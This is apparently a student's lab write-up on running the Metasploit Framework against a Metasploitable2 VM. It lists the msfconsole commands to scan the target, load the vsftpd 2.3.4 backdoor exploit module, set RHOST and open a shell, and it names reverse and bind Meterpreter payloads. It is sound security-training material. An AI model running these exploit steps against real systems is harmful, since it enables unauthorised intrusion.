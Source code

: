 # 🎯 Metasploit Framework - Vulnerability Scanning & Exploitation

## 🧠 What I Learned

In this exercise, I explored the **Metasploit Framework**, a powerful tool used for **vulnerability assessment, payload generation, and exploitation**. I learned how to perform Nmap scans from inside Metasploit, search for vulnerable services, configure modules, and successfully launch an exploit against a known vulnerable target (Metasploitable2).

---

## 📚 Topics Covered

- Launching and navigating Metasploit (`msfconsole`)
- Performing port scans within Metasploit (`db_nmap`)
- Searching and selecting exploit modules
- Setting up payloads (reverse shells, bind shells)
- Configuring exploit options (RHOST, LHOST, LPORT, etc.)
- Gaining a session and interacting with a compromised machine
- Basic post-exploitation with Meterpreter

---

## 🛠️ Tools & Environment

- **Kali Linux** (Attacker VM)
- **Metasploit Framework**
- **Metasploitable2** (Target VM)
- Nmap (integrated with Metasploit using `db_nmap`)

---

## 🔍 Workflow Example

### 1. Start Metasploit Console
  msfconsole
### 2. Scan Target with Nmap from within Metasploit
  - db_nmap 192.168.56.101
3. Search for a Vulnerable Service
  - search vsftpd 2.3.4
4. Configure Exploit Module
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST 192.168.56.101
5. Run the Exploit
  run/exploit
🎉 Successful: Shell session opened.

🧪 Payload Concepts
Payloads are the actual code that gets executed on the target

Common types:
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
Used set PAYLOAD and set LHOST/LPORT to customize
